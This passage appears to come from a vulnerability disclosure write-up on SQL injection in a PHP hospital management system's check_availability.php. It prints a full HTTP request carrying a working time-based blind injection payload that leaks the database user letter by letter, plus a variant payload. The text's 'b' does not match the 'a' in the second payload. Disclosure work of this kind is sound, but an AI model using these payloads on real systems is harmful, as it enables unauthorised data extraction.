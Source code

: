 Line 6 gets the POST variable email value directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/check_availability.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 119
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

email=1@2qaz.com' and 1=2 union select case when substring((select user() limit 0,1),1,1)='r' then sleep(5) else 0 end#
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:

![30.png](./img/30.png)

If you query the following statement:
```
email=1@2qaz.com' and 1=2 union select case when substring((select user() limit 0,1),1,1)='a' then sleep(5) else 0 end#
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![31.png](./img/31.png)


**[11]**

In \hms\admin\betweendates-detailsreports.php:
